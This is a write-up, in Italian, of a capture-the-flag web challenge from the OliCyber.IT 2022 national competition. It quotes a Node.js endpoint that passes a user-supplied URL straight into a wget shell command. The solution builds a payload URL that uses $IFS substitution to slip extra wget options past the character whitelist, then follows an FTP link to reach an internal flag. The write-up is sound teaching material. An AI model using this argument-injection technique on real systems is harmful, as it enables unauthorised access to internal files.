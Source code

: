 # OliCyber.IT 2022 - Competizione nazionale

## [web-4] Bibvault^2 (5 risoluzioni)

Il sito permette di scaricare e visualizzare il contenuto di un link tramite wget, la funzione che implementa il download è questa:

```js
const URL_WHITELIST =
  "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789/.-:";
const QUERY_WHITELIST = "?$";

app.post("/files", authenticateToken, async (req, res) => {
  if (req.user === null) {
    res.redirect(303, "/login");
    return;
  }
  const url = decodeURI(req.body.url);
  const fail_check = [
    typeof url !== "string",
    Array.from(url).some((x) => !(URL_WHITELIST + QUERY_WHITELIST).includes(x)),
    // controllo che la querystring non superi i 25 caratteri, non vogliamo cose strane
    url.length -
      Math.min(
        ...Array.from(QUERY_WHITELIST).map((x) =>
          url.indexOf(x) != -1 ? url.indexOf(x) : 1000
        )
      ) >
      25,
    !(url.startsWith("https") || url.startsWith("http")),
    url.toLowerCase().includes("ftp"),
    url.toLowerCase().includes(".."),
    req.user.username.toLowerCase() == "gabibbo",
  ].find((e) => e);
  if (fail_check) {
    res.status(400);
    return;
  }
  exec(`wget ${url} --max-redirect 0`, {
    cwd: `/users/${await SHA256(req.user.username)}`,
  });
  res.redirect(303, "/files");
});
```

### Soluzione

Guardando la lista dei parametri passabili a wget con `wget --help`, ci si può accorgere di queste due opzioni

```
--recursive, -r               Scaricamento ricorsivo
--follow-ftp                  Segue i collegamenti FTP dai documenti HTML
```

A quel punto basta forgiare un file html che abbia un link al server ftp con la flag

```html
<html>
  <body>
    <a href="ftp://secretftp:21/flag"></a>
  </body>
</html>
```

All'interno dell'URL sono permessi i caratteri `$` e `-`, inoltre la `wget` è chiamata da una `execute`, possiamo quindi sfruttare la _parameter substitution_ offerta da sh ed utilizzare **IFS** (_Internal Field Separator_) per avere la flag. L'url finale (che dovrà rispondere con dell'HTML contenente un link alla flag) sarà:

`https://webhook/$IFS--follow-f$Dtp$IFS-r`

La flag sarà accessibile tramite l'url `http://bibvault/download?fileName=secretftp/flag`
